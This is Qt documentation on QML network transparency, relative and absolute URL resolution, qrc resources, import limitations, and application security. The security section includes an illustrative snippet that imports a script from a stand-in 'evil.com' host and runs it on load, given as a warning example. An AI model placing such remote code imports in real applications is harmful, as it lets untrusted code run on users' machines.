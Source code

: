 .. _sdk_qtqml_resource_loading_and_network_transparency:
QtQml Resource Loading and Network Transparency
===============================================



QML supports network transparency by using URLs (rather than file names)
for all references from a QML document to other content. This means that
anywhere a URL source is expected, QML can handle remote resources as
well as local ones, for example in the following image source:

.. code:: qml

    Image {
        source: "http://www.example.com/images/logo.png"
    }

Since a *relative* URL is the same as a relative file, development of
QML on regular file systems remains simple:

.. code:: qml

    Image {
        source: "images/logo.png"
    }

Network transparency is supported throughout QML, for example:

-  Fonts - the ``source`` property of FontLoader is a URL
-  WebViews - the ``url`` property of WebView (obviously!)

Even QML types themselves can be on the network - if the Prototyping
with qmlscene is used to load ``http://example.com/mystuff/Hello.qml``
and that content refers to a type "World", the engine will load
``http://example.com/mystuff/qmldir`` and resolve the type just as it
would for a local file. For example if the qmldir file contains the line
"World World.qml", it will load ``http://example.com/mystuff/World.qml``
Any other resources that ``Hello.qml`` referred to, usually by a
relative URL, would similarly be loaded from the network.

.. rubric:: Relative vs. Absolute URLs
   :name: relative-vs-absolute-urls

Whenever an object has a property of type URL (QUrl), assigning a string
to that property will actually assign an absolute URL - by resolving the
string against the URL of the document where the string is used.

For example, consider this content in
``http://example.com/mystuff/test.qml``:

.. code:: qml

    Image {
        source: "images/logo.png"
    }

The Image source property will be assigned
``http://example.com/mystuff/images/logo.png``, but while the QML is
being developed, in say ``C:\User\Fred\Documents\MyStuff\test.qml``, it
will be assigned ``C:\User\Fred\Documents\MyStuff\images\logo.png``.

If the string assigned to a URL is already an absolute URL, then
"resolving" does not change it and the URL is assigned directly.

.. rubric:: QRC Resources
   :name: qrc-resources

One of the URL schemes built into Qt is the "qrc" scheme. This allows
content to be compiled into the executable using The Qt Resource System.
Using this, an executable can reference QML content that is compiled
into the executable:

.. code:: cpp

        QQuickView *view = new QQuickView;
        view->setUrl(QUrl("qrc:/dial.qml"));

The content itself can then use relative URLs, and so be transparently
unaware that the content is compiled into the executable.

.. rubric:: Limitations
   :name: limitations

The ``import`` statement is only network transparent if it has an "as"
clause.

More specifically:

-  ``import "dir"`` only works on local file systems
-  ``import libraryUri`` only works on local file systems
-  ``import "dir" as D`` works network transparently
-  ``import libraryUrl as U`` works network transparently

.. rubric:: Implications for Application Security
   :name: implications-for-application-security

The QML security model is that QML content is a chain of trusted
content: the user installs QML content that they trust in the same way
as they install native Qt applications, or programs written with
runtimes such as Python and Perl. That trust is establish by any of a
number of mechanisms, including the availability of package signing on
some platforms.

In order to preserve the trust of users, QML application developers
should not load and execute arbitrary JavaScript or QML resources. For
example, consider the QML code below:

.. code:: qml

    import QtQuick 2.0
    import "http://evil.com/evil.js" as Evil
    Component {
        onLoaded: Evil.doEvil()
    }

This is equivalent to downloading and executing
"http://evil.com/evil.exe". **The QML engine will not prevent particular
resources from being loaded**. Unlike JavaScript code that is run within
a web browser, a QML application can load remote or local filesystem
resources in the same way as any other native applications, so
application developers must be careful in loading and executing any
content.

As with any application accessing other content beyond its control, a
QML application should perform appropriate checks on any untrusted data
it loads. **Do not, for example, use ``import``, Loader or
`XMLHttpRequest </sdk/apps/qml/QtQml/qtqml-javascript-qmlglobalobject/#xmlhttprequest>`_ 
to load any untrusted code or content.**

